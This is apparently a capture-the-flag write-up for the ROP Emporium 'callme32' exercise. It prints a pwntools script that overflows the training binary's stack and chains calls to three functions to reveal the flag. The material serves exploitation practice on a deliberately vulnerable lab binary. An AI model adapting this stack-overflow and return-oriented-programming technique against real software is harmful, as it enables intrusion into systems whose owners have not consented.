 ```yaml
---
layout: post
title: ROP Emporium - callme32
---
```


### Instruction
You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('callme32')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')

rop = ROP(exe)
rop.call('callme_one', [1, 2, 3])
rop.call('callme_two', [1, 2, 3])
rop.call('callme_three', [1, 2, 3])

io.sendline(payload + rop.__str__())
io.interactive()
```